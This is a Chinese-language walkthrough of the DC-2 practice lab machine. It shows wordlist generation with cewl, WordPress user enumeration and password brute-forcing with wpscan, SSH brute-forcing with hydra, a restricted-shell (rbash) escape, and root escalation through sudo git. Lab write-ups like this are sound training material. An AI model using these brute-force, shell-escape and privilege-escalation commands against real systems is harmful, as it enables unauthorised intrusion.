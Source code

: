 - 扫描端口

![](./i/1.png)

目标靶机开启了80与7744端口，访问80端口

![](./i/2.png)

发现url写的是dc-2而不是ip，并且访问失败，猜测dns解析失败，配置dns解析
```
vim /etc/hosts
```

![](./i/3.png)

再次访问网站成功访问

![](./i/4.png)

发现flag，我们点击flag发现提示

![](./i/5.png)

cewl经过查询发现是一款以爬虫模式在指定URL上收集单词的工具，可以将它收集到的单词纳入密码字典，以提高密码破解工具的成功率，那么我们直接爬

```
cewl dc-2 >pwd.dic
```

然后我们使用dirsearch进行扫描，发现后台登录页面。并且进行访问

![](./i/6.png)

发现是wordpress,那这里我们使用wordpress专用扫描器进行信息搜集，首先查询一下用户名泄露

```
wpscan --update
wpscan --url dc-w -e u
```

![](./i/7.png)

可以看到出来了三个用户名,admin,jerry,tom,那么我们尝试对其进行密码爆破

```
wpscan --url dc-2 -U admin,jerry,tom -P pwd.dic
```

![](./i/8.png)

可以看到出来了两个用户名和密码，那我们登录看看,发现可以成功登录,经过查找，tom没有发现有用的信息，jerry的消息中存在flag2，进行查看

![](./i/9.png)

提示是另一种方法，联想到开启了两个端口，一个80http，一个7744ssh，那么我们就尝试进行爆破ssh
```
hydra -L 1.txt -P pwd.dic -t 64 -e ns 192.168.9.132 ssh -s 7744
```

![](./i/10.png)

成功出来了一个，那我们进行登录

![](./i/11.png)

登陆成功，发现flag3.txt,但是发现是rbash,,,,,,我们需要绕过rbash才可以获取flag3.txt

## 绕过rbash
```
BASH_CMDS[a]=/bin/sh;a
/bin/bash
```

## 添加环境变量
```
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```

![](./i/12.png)

绕过rbash成功，拿到了flag3.txt的内容，根据提示我们尝试登录jerry,密码adipiscing成功登录，进入jerry家目录成功拿到flag4.txt

![](./i/13.png)

最后一步flag在root家目录，我们要提权

sudo -l

![](./i/15.png)

发现git不需要密码，那么就进行sudo提权，第一次尝试
```
sudo git -p --help
```

失败，无法进入强制交互模式

```
sudo git help config
!/bin/bash
```

![](./i/14.png)

成功提权，获取flag